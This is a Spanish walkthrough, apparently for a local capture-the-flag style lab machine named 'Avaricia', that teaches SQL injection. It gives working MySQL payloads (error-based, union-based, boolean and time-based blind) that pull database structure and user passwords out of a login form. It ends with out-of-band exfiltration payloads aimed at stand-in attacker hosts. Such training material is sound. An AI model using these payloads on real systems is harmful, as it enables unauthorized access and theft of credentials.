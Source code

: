 = Avaricia
:author: Manuel L. Quero
:toc: left
:doctype: book

== Despliegue de la máquina

Sería conveniente utilizar una distribución Linux, es recomendable usar Kali Linux.

Como requisito, necesitaremos tener instalado docker y docker-compose.

Podemos ver como instalar docker para varias distribuciones de linux -> https://docs.docker.com/engine/install/[Instalar Docker]

Podemos ver como instalar docker-compose para varias distribuciones de linux -> https://docs.docker.com/compose/install/linux/[Instalar Docker-Compose]

Necesitaremos descargar primeramente el auto_deploy.sh, el cual se muestra como una pirámide en la página. Después en un directorio deberemos tener el auto_deploy.sh, avaricia.tar y docker-compose.yml, deberemos acceder con la terminal a dicho directorio y ejecutar el siguiente comando. 

(Si el auto_deploy no tiene permisos se los damos mediante *chmod +x*). 

[source,bash]
----
$ sudo bash auto_deploy.sh avaricia.tar
----

== Ataque SQL Injection (SQLi)

Los ataques de inyección SQL se basan en la manipulación de bases de datos SQL mediante la inserción de consultas maliciosas en campos de entrada. Esto permite a un atacante alterar datos, acceder a información confidencial y realizar acciones no autorizadas. Un usuario malintencionado podría:

* Suplantar la identidad de otro usuario con más privilegios.
* Elevar sus propios permisos o los de otros hasta niveles administrativos.
* Manipular datos existentes o eliminarlos.
* Obtener acceso a información sensible almacenada en la base de datos.

Existen tres grandes grupos de ataques SQLi:

=== 1. In-band SQL injection

Este es el tipo de ataque SQLi más clásico y directo. Se caracteriza porque el atacante envía consultas SQL maliciosas y recibe los resultados por el mismo canal de comunicación, generalmente como una respuesta de la base de datos en una página web.

Dentro de este grupo encontramos dos subtipos:

==== a. Error-based SQL injection

Este ataque explota los mensajes de error devueltos por la base de datos para obtener información sensible. Aunque estos errores pueden parecer inofensivos, un atacante puede utilizarlos para:

* Obtener la versión de la base de datos y poder usar ataques específicos dependiendo de la versión.
* Conocer la estructura de la base de datos para poder intentar SQLi más específicas.
* Extraer datos de la base de datos. El proceso es más largo y complejo pero se pueden manipular los errores para extraer datos.

==== b. Union-based SQL injection

Este ataque utiliza la cláusula *UNION* para combinar en una misma consulta información legítima con datos sensibles. Es un método especialmente peligroso, ya que permite al atacante recuperar casi cualquier dato almacenado en la base de datos con una única consulta.

=== 2. Blind SQL Injection

Las inyecciones SQL a ciegas son una variante en la que el atacante no recibe respuestas directas de la base de datos. En lugar de obtener mensajes de error o resultados visibles, debe inferir la información mediante observación indirecta.

Este tipo de ataques funciona como un sistema de "verdadero o falso", donde el atacante prueba diferentes consultas y analiza los cambios en el comportamiento del sistema.

Si quieres saber más sobre este tipo de ataques puedes mirar -> https://www.exploit-db.com/docs/47367[Inyección SQL a ciegas]

Dentro de este grupo encontramos dos subtipos:

==== a. Boolean-Based SQL Injection

En este ataque, el atacante inyecta una condición que evalúa si es *TRUE* o *FALSE*, observando las diferencias en la respuesta del servidor. Normalmente, se utiliza la cláusula *AND* para construir estas pruebas.

==== b. Time-based SQL Injection

En este caso, el ataque se basa en utilizar funciones como *SLEEP()* o *BENCHMARK()* para medir los tiempos de respuesta y determinar si una consulta se ejecutó correctamente.

=== 3. Out-of-band SQL injection (OOB SQLi)

El ataque de SQL fuera de banda consiste en enviar la información consultada a través de un canal diferente al utilizado para la interacción con la aplicación. El atacante usa comandos SQL para que envíen información a través de una conexión de red directa, una solicitud DNS o una solicitud HTTP

== Solucionar la máquina

Vamos a ver cómo realizar los diversos tipos de ataques de inyección SQL que hemos visto anteriormente y ver las respuestas que nos dan, además de entender las consultas que realizamos.

En nuestro caso la base de datos usa Mysql, podemos ver una guía de los distintos payloads para otros servicios de bases de datos -> https://portswigger.net/web-security/sql-injection/cheat-sheet[SQLiCheatSheet].

=== 1. In-band SQL injection

==== a. Error-based SQL injection

Con este ataque, podremos obtener mucha información sobre la base de datos, desde su versión hasta contraseñas.

===== Reconocimiento

Pero antes de esto deberemos comprobar si nos muestra los errores o no para ello deberemos hacer la siguiente consulta:

----
Usuario: '
Contraseña: 1234
----

Al poner esa comilla simple, se cierra la consulta que hace la web al servidor de mysql, por lo que el resto sería un error en la sintaxis de sql.

image::assets/in-band/error-based/Recon1.png[Reconocimiento1,align=center]

image::assets/in-band/error-based/Recon2.png[Reconocimiento2,align=center]

===== Payloads

Para cada uno de ellos utilizaremos la clausula updatexml(), que permite modificar datos XML dentro de bases de datos MySQL. En nuestro caso lo usaremos para lanzar los errores y mostrar su contenido como un mensaje.

----
UPDATEXML(xml_target, xpath_expr, new_value)
----

*Obtener la versión del motor de MySQL*

----
Usuario: ' AND updatexml(null, concat(0x3a, @@version), null) -- '
Contraseña: 
----

* *'* -> Esto es un carácter de comilla simple que cierra la consulta original y nos permite iniciar la nuestra.
* *AND* -> Añadimos una condición a la consulta original.
* *updatexml()* -> La función intenta procesar una expresión XML, pero si se le pasa un valor que no es válido como XML (en este caso, un valor concatenado con concat), lanzará un error. El contenido que se pase dentro de concat() se convierte en el mensaje de error, lo que permite al atacante obtener información sensible.
** *null* -> Sirve para no afectar al ataque.
** *concat(0x3a, @@version)* -> Con esto, concatenaremos varias cadenas, el valor de _0x3a_ en hexadecimal corresponde con el carácter :, que se usará como separador entre los valores concatenados. Y _@@version_ es una variable global en MySQL que devuelve la versión del servidor.
** *null* -> Sirve para no afectar al ataque.
** *--* -> Sirven para que el resto de consulta sea comentado y sea ignorado.
** *'* -> Este carácter es para cerrar la otra comilla simple y que no nos de ningún error, y así se pueda comentar el resto de la consulta correctamente.

image::assets/in-band/error-based/Version1.png[Version1,align=center]

image::assets/in-band/error-based/Version2.png[Version2,align=center]

*Obtener el nombre de la base de datos actual*

----
Usuario: ' AND updatexml(null, concat(0x3a, database()), null) -- '
Contraseña: 
----

Como podemos ver la sintaxis es la misma que el anterior pero cambia el contenido del concat().

* *database()* -> Esta es una función de MySQL que devuelve el nombre de la base de datos actual a la que está conectado el servidor MySQL.

image::assets/in-band/error-based/BaseDatos1.png[BaseDatos1,align=center]

image::assets/in-band/error-based/BaseDatos2.png[BaseDatos2,align=center]

*Obtener el nombre de la primera tabla*

----
Usuario: ' AND updatexml(null, concat(0x3a, (SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)), null) -- '
Contraseña: 
----

* *information_schema.tables* -> _information_schema_ es una base de datos especial en MySQL que contiene información sobre todas las bases de datos y sus tablas. La tabla tables contiene los nombres de todas las tablas de una base de datos.

* *table_schema=database()* -> database() devuelve el nombre de la base de datos actual. Al usar esta función dentro de la consulta, estás buscando las tablas dentro de la base de datos actual.

* *LIMIT 0,1* -> Esto limita los resultados de la consulta a una sola fila. De esta forma obtendremos solo el primer nombre de tabla de la base de datos.

image::assets/in-band/error-based/Usuarios1.png[TablaUsuarios1,align=center]

image::assets/in-band/error-based/Usuarios2.png[TablaUsuarios2,align=center]

*Obtener el nombre de la primera columna de una tabla*

----
Usuario: ' AND updatexml(null, concat(0x3a, (SELECT column_name FROM information_schema.columns WHERE table_name='usuarios' LIMIT 0,1)), null) -- '
Contraseña: 
----

* *information_schema.columns* -> Esta tabla contiene información sobre las columnas de todas las tablas de la base de datos. Se puede consultar para obtener detalles sobre las columnas de una tabla específica.

* *table_name='usuarios'* -> Aquí estamos buscando las columnas de la tabla llamada usuarios (que lo podemos obtener de la anterior consulta).

* *LIMIT 0,1* -> Limitamos el resultado a solo una columna para facilitar la consulta y evitar que se devuelvan demasiados resultados.

image::assets/in-band/error-based/Colum1.png[Columna1,align=center]

image::assets/in-band/error-based/Colum2.png[Columna2,align=center]

*Extraer usuarios y contraseñas (u otras columnas)*

----
Usuario: ' AND updatexml(null, concat(0x3a, (SELECT usuario FROM usuarios LIMIT 0,1)), null) -- '
Contraseña: 
----

Como ya sabemos la tabla y podemos conocer las distintas columnas que tiene, se hace más sencilla la busqueda de información. En este caso, vamos a extraer el nombre del primer usuario.

image::assets/in-band/error-based/Nombre1.png[NombreUsuarios1,align=center]

image::assets/in-band/error-based/Nombre2.png[NombreUsuarios2,align=center]

----
Usuario: ' AND updatexml(null, concat(0x3a, (SELECT password FROM usuarios LIMIT 0,1)), null) -- '
Contraseña: 
----

También podemos ver las contraseñas si sabes la columna en la que están. Si queremos ver otros datos de la misma columna podemos cambiar el LIMIT a LIMIT(1,1).

image::assets/in-band/error-based/Contraseñas1.png[Contraseñas1,align=center]

image::assets/in-band/error-based/Contraseñas2.png[Contraseñas2,align=center]

==== b. Union-based SQL injection

===== Reconocimiento

Para este tipo de ataques es importante conocer cuantas columnas tiene la consulta original, para que las columnas que inyecta el UNION coincidan.

Entonces, podemos usar el payload anterior para obtener el nombre la columna empezando por LIMIT(0,1) hasta que nos de error.

----
' AND updatexml(null, concat(0x3a, (SELECT column_name FROM information_schema.columns WHERE table_name='usuarios' LIMIT 0,1)), null) -- '
----

O podemos usar un payload UNION para ir sacando mediante NULL la cantidad de columnas que tiene.

----
Usuario: ' UNION SELECT NULL, NULL, NULL, NULL,(...) -- '
Contraseña: 
----

Aclarar que los (...) son NULL en caso que la tabla tenga más columnas. Si la tabla tiene seis columnas se deberán añadir dos NULL más al payload.

De esta forma, sabremos la estructura de la tabla y podremos incluso acceder, aunque no tengamos datos de nadie todavía. Esto nos permitirá inyectar datos específicos.

image::assets/in-band/union-based/Recon1.png[Reconocimiento1,align=center]

image::assets/in-band/union-based/Recon2.png[Reconocimiento2,align=center]

===== Payloads

*Recuperar el nombre de la base de datos*

----
Usuario: ' UNION SELECT NULL, NULL, NULL,(...), database() -- '
Contraseña: 
----

Este payload lo que nos mostrará será el nombre de la base de datos en la posición que pongamos database(), es decir, si la tabla tiene seis columnas y en la cuenta se muestran los datos de las tres últimas columnas, tendremos que poner database() en alguna de esas posiciones para obtener los datos, en este caso el nombre de la base de datos.

image::assets/in-band/union-based/BaseDatos1.png[BaseDatos1,align=center]

image::assets/in-band/union-based/BaseDatos2.png[BaseDatos2,align=center]

*Recuperar el nombre de las tablas*

----
Usuario: ' UNION SELECT NULL, NULL, NULL,(...), group_concat(table_name) FROM information_schema.tables WHERE table_schema=database() -- '
Contraseña: 
----

* *group_concat(table_name)* -> Esta función de MySQL concatena todos los nombres de las tablas en la base de datos, obteniendolas separadas por comas.

* *information_schema.tables* -> Esta tabla contiene información sobre todas las tablas en todas las bases de datos en MySQL. La consulta se limita a la base de datos actual utilizando WHERE *table_schema=database()*.

image::assets/in-band/union-based/Tablas1.png[NombreTablas1,align=center]

image::assets/in-band/union-based/Tablas2.png[NombreTablas2,align=center]

*Recuperar los nombres de las columnas de una tabla específica*

----
Usuario: ' UNION SELECT NULL, NULL, NULL,(...), group_concat(column_name) FROM information_schema.columns WHERE table_name='usuarios' -- '
Contraseña: 
----

* *group_concat(column_name)* -> Similar al paso anterior, esta función concatenará los nombres de las columnas de la tabla usuarios y los devolverá como un solo resultado.

* *information_schema.columns* -> Esta tabla contiene información sobre todas las columnas de todas las tablas en MySQL. Al limitarla por table_name='usuarios', obtenemos los nombres de las columnas de la tabla usuarios.

image::assets/in-band/union-based/Columnas1.png[Columnas1,align=center]

image::assets/in-band/union-based/Columnas2.png[Columnas2,align=center]

*Extraer datos de las columnas (usuarios, contraseñas u otras columnas)*

----
Usuario: ' UNION SELECT NULL, NULL, NULL,(...), group_concat(usuario) FROM usuarios -- '
Contraseña: 
----

* *group_concat(usuario)* -> Aquí estamos extrayendo los datos de la columna usuario de la tabla usuarios y concatenándolos para que todos los nombres de usuario sean devueltos en una sola cadena separada por comas.

image::assets/in-band/union-based/Usuarios1.png[Usuarios1,align=center]

image::assets/in-band/union-based/Usuarios2.png[Usuarios2,align=center]

----
Usuario: ' UNION SELECT NULL, NULL, NULL,(...), group_concat(password) FROM usuarios -- '
Contraseña: 
----

* *group_concat(password)* -> Similar al paso anterior, pero en este caso estamos extrayendo los valores de la columna password de la tabla usuarios.

image::assets/in-band/union-based/Contraseñas1.png[Contraseñas1,align=center]

image::assets/in-band/union-based/Contraseñas2.png[Contraseñas2,align=center]

=== 2. Blind SQL Injection

==== a. Boolean-Based SQL Injection

En los ataques boolean-based se usan operadores lógicos como AND u OR para alterar las condiciones de una consulta SQL. AND se usa cuando se conoce una condición válida (como un usuario) y se quiere comprobar si otra también lo es, por ejemplo 1=1. OR, en cambio, permite que la consulta sea verdadera si al menos una condición se cumple, como usuario = 'admin' OR 1=1, forzando así una respuesta positiva.

En nuestro caso, vamos a usar AND ya que con los anteriores resultado sabemos que existe el usuario *admin* y *user*. En caso de que no conozcamos estos datos se recomienda usar OR.

===== Reconocimiento

Ahora valuaremos si la página es vulnerable a este tipo de ataques, la lógica de esta página es que si es verdad nos dejará acceder, si es falso nos dirá que las credenciales son incorrectas. A este tipo de ataques se les suele hacer un script para automatizar la iteración y obtener respuestas para cosas más específicas.

----
Usuario: admin' AND 1=1 --
Contraseña: 
----

image::assets/blind/boolean-based/Recon1.png[Reconocimiento1,align=center]

image::assets/blind/boolean-based/Recon2.png[Reconocimiento2,align=center]

----
Usuario: admin' AND 1=2 --
Contraseña: 
----

image::assets/blind/boolean-based/Recon3.png[Reconocimiento3,align=center]

image::assets/blind/boolean-based/Recon4.png[Reconocimiento4,align=center]

===== Payloads

*Inferir nombre de la base de datos*

En esta parte, cómo queremos algo muy específico que es el nombre de la base de datos, podemos ir letra por letra para ir sacando el nombre de la base de datos o tener un script y usar un diccionario para sacarlo más rápido. En este caso buscamos *banco*.

----
Usuario: admin' AND SUBSTRING(database(),1,1) = 'a' -- 
Contraseña:
----

Y así deberemos seguir con cada letra, obviamente esto no está pensado para hacerlo así y hay scripts que solucionan estos problemas. Una herramienta muy eficaz es https://github.com/sqlmapproject/sqlmap[sqlmap].

* *SUBSTRING(database(),1,1)* -> Toma el primer carácter del nombre de la base de datos. Para pasar al siguiente caracter sería SUBSTRING(database(),2,1), etc.
* *= 'b'* -> Compara si ese carácter es 'b'.

image::assets/blind/boolean-based/BaseDatos1.png[BaseDatos1,align=center]

image::assets/blind/boolean-based/BaseDatos2.png[BaseDatos2,align=center]

----
Usuario: admin' AND SUBSTRING(database(),1,1) = 'b' -- 
Contraseña:
----

image::assets/blind/boolean-based/BaseDatos3.png[BaseDatos3,align=center]

image::assets/blind/boolean-based/BaseDatos4.png[BaseDatos4,align=center]

*Inferir nombre de tablas*

En este caso buscamos *usuarios* en la base de datos actual.

----
Usuario: admin' AND (SELECT SUBSTRING(table_name,1,1) FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1) = 'a' -- 
Contraseña:
----

image::assets/blind/boolean-based/Tablas1.png[Tablas1,align=center]

image::assets/blind/boolean-based/Tablas2.png[Tablas2,align=center]

----
Usuario: admin' AND (SELECT SUBSTRING(table_name,1,1) FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1) = 'u' -- 
Contraseña:
----

image::assets/blind/boolean-based/Tablas3.png[Tablas3,align=center]

image::assets/blind/boolean-based/Tablas4.png[Tablas4,align=center]

Este payload consulta la primera tabla del esquema actual y verifica si empieza con la letra 'u'. Se van cambiando posiciones (LIMIT 1,1, LIMIT 2,1, etc.) y posiciones del carácter (SUBSTRING(...,2,1), etc.) para inferir cada tabla y cada letra.

*Extraer columnas de una tabla*

En este caso buscamos *usuario* en la tabla *usuarios*.

----
Usuario: admin' AND (SELECT SUBSTRING(column_name,1,1) FROM information_schema.columns WHERE table_name='usuarios' LIMIT 1,1) = 'u' -- 
Contraseña:
----

image::assets/blind/boolean-based/Columnas1.png[Columnas1,align=center]

image::assets/blind/boolean-based/Columnas2.png[Columnas2,align=center]

Y al igual que el resto se debe de ir carácter por carácter para obtener la pálabra correcta. Se van cambiando posiciones (LIMIT 1,1, LIMIT 2,1, etc.) y posiciones del carácter (SUBSTRING(...,2,1), etc.) para inferir cada tabla y cada letra.

*Extraer datos*

En este caso buscamos *admin123* en la columna *password*.

----
Usuario: admin' AND (SELECT SUBSTRING(usuario,1,1) FROM usuarios LIMIT 1,1) = 'u' -- 
Contraseña:
----

image::assets/blind/boolean-based/Contraseña1.png[Contraseña1,align=center]

image::assets/blind/boolean-based/Contraseña2.png[Contraseña2,align=center]

----
Usuario: admin' AND (SELECT SUBSTRING(usuario,2,1) FROM usuarios LIMIT 1,1) = 's' -- 
Contraseña:
----

image::assets/blind/boolean-based/Contraseña3.png[Contraseña3,align=center]

image::assets/blind/boolean-based/Contraseña4.png[Contraseña4,align=center]

===== Aclaración

Como hemos visto, este ataque es muy repetitivo, por lo que he recalcado que es mucho más eficaz realizarlo mediante un script. Además, en un caso real no conoceremos de antemano ninguna información, por eso he explicado en cada paso qué es lo que busco, para ir directo al objetivo y no perder tiempo con pruebas innecesarias.

==== b. Time-based SQL Injection

Este tipo de ataque es muy parecido al anterior, por lo que también recomendaría usar un script

===== Reconocimiento

En este tipo de ataques, notaremos que si es verdadero la página empezará a cargar, si es falso la página se actualizará con normalidad.

----
Usuario: admin' AND IF(1=1, SLEEP(5), 0) -- 
Contraseña:
----

image::assets/blind/time/Recon1.png[Reconocimiento1,align=center]

image::assets/blind/time/Recon2.png[Reconocimiento2,align=center]

----
Usuario: admin' AND IF(1=2, SLEEP(5), 0) -- 
Contraseña:
----

image::assets/blind/time/Recon3.png[Reconocimiento3,align=center]

image::assets/blind/time/Recon4.png[Reconocimiento4,align=center]

* *AND IF(1=1, SLEEP(5), 0)* -> Si la condición 1=1 es verdadera (siempre lo es), el servidor ejecutará SLEEP(5) y causará un retraso de 5 segundos.

===== Payloads

*Obtener el nombre de la base de datos completo*

Como ya sabemos que es *banco* podemos buscar directamente, pero ocurre como en el anterior ataque.

----
Usuario: admin' AND IF(SUBSTRING(DATABASE(),1,1) = 'b', SLEEP(5), 0) -- 
Contraseña:
----

image::assets/blind/time/BaseDatos1.png[BaseDatos1,align=center]

image::assets/blind/time/BaseDatos2.png[BaseDatos2,align=center]

----
admin' AND IF(SUBSTRING(DATABASE(),1,1) = 'b', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING(DATABASE(),2,1) = 'a', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING(DATABASE(),3,1) = 'n', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING(DATABASE(),4,1) = 'c', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING(DATABASE(),5,1) = 'o', SLEEP(5), 0) -- 
----

* *IF(SUBSTRING(DATABASE(),1,1) = 'a', SLEEP(5), 0)* -> Si el primer carácter es 'a', el servidor esperará 5 segundos (esto es el ataque Time-Based).

** *SUBSTRING(DATABASE(),1,1)* -> Extrae el primer carácter del nombre de la base de datos.

*** *DATABASE()* Función de MySQL que devuelve el nombre de la base de datos actual.

*Obtener tablas sobre la base de datos*

En este caso vamos a buscar la tabla *usuarios*

----
Usuario: admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),1,1) = 'u', SLEEP(5), 0) -- 
Contraseña:
----

image::assets/blind/time/Tablas1.png[Tablas1,align=center]

image::assets/blind/time/Tablas2.png[Tablas2,align=center]

----
admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),1,1) = 'u', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),2,1) = 's', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),3,1) = 'u', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),4,1) = 'a', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),5,1) = 'r', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),6,1) = 'i', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),7,1) = 'o', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),8,1) = 's', SLEEP(5), 0) -- 
----

* *SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE()* -> Consulta que selecciona las tablas de la base de datos actual.

* *SUBSTRING(...)* -> Extrae el primer carácter del nombre de la primera tabla.

* *SLEEP(5)* -> Si el primer carácter es correcto (en este caso, 'u'), el servidor hará una pausa de 5 segundos.

*Obtener las columnas de una tabla*

En este caso vamos a buscar la columna *id*

----
Usuario: admin' AND IF(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name = 'usuarios' LIMIT 1),1,1) = 'i', SLEEP(5), 0) -- 
Contraseña:
----

image::assets/blind/time/Columnas1.png[Columnas1,align=center]

image::assets/blind/time/Columnas2.png[Columnas2,align=center]

----
admin' AND IF(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name = 'usuarios' LIMIT 1),1,1) = 'i', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name = 'usuarios' LIMIT 1),2,1) = 'd', SLEEP(5), 0) -- 
----

* *SELECT column_name FROM information_schema.columns WHERE table_name = 'usuarios'* -> Consulta que selecciona los nombres de las columnas de la tabla 'usuarios'.

*Obtener contraseñas o datos sensibles*

En este caso vamos a buscar la contraseña *admin123* dentro de los columna *password*

----
Usuario: admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),1,1) = 'a', SLEEP(5), 0) -- 
Contraseña:
----

image::assets/blind/time/Contraseña1.png[Contraseña1,align=center]

image::assets/blind/time/Contraseña2.png[Contraseña2,align=center]

----
admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),1,1) = 'a', SLEEP(5), 0) --
admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),2,1) = 'd', SLEEP(5), 0) --
admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),3,1) = 'm', SLEEP(5), 0) --
admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),4,1) = 'i', SLEEP(5), 0) --
admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),5,1) = 'n', SLEEP(5), 0) --
admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),6,1) = '1', SLEEP(5), 0) --
admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),7,1) = '2', SLEEP(5), 0) --
admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),8,1) = '3', SLEEP(5), 0) --
----

SELECT password FROM usuarios LIMIT 1: Obtiene la primera fila de la columna password de la tabla usuarios.

===== Aclaración

Como hemos podido ver, ocurre como en el caso anterior aunque cambia un poco la sintaxis, por ello recomiendo el uso de scripts en los ataques a ciegas.

=== 3. Out-of-band SQL injection (OOB SQLi)

Los ataques fuera de banda se basan en enviar la información al servidor http o dns del atacante. En nuestro caso, no podemos realizarlos ya que la base de datos debe hacer peticiones externas y al estar en local no se puede, de todas formas, vamos a ver cómo se realizan estos ataques.

Hay que entender que estos ataques se realizan cuando el atacante no puede usar el mismo canal para enviar el ataque y recibir los datos o cuando el servidor responde que es inestable. Normalmente se realiza por HTTP. Y es importante que el servidor no tenga --secure-file-priv, ya que limita la lectura o escritura de atchivos a un directorio específico.

* El atacante realiza una consulta a la web con un payload como los siguientes:

----
- HTTP: ' UNION SELECT NULL,NULL,(...),CONCAT('http://example.com/?data=', @@version) ;-- 

Este payload realiza una inyección SQL y ejecuta una consulta que solicita un archivo en el servidor del atacante. En este caso, la consulta le pide al servidor web de la víctima que realice una petición HTTP a un servidor controlado por el atacante y pase información (en este caso, la versión de MySQL) como parte de la URL.

- DNS: ' UNION SELECT NULL,NULL,(...),@@version INTO OUTFILE '\\\\example.com\\capture.txt' ;--

Similar al anterior, pero en este caso, la inyección SQL hace que la base de datos intente resolver un dominio DNS. La función load_file() o una función similar intenta acceder a un recurso en el dominio controlado por el atacante. Esto puede ser aprovechado para exfiltrar información como la versión de MySQL o el nombre de usuario.
----

* La página web realiza la consulta a la base de datos, pasando el payload del atacante en la consulta SQL.

* Cómo recibe el atacante la información:

----
- HTTP: La base de datos realiza una petición HTTP al servidor del atacante. En este caso, el payload contiene una URL que será solicitada al servidor del atacante, permitiendo que los datos (por ejemplo, la versión de la base de datos) sean enviados como parte de los parámetros de la URL.

Por ejemplo, la base de datos de la víctima hará una solicitud HTTP similar a: http://attacker.com/capture?version=5.7.35

- DNS: El servidor de bases de datos realiza una consulta DNS al dominio controlado por el atacante. El atacante puede ver las consultas DNS que se envían al servidor controlado por él, y en esos registros de DNS podrá ver los datos exfiltrados, como la versión de MySQL o cualquier otra información solicitada en la consulta SQL.

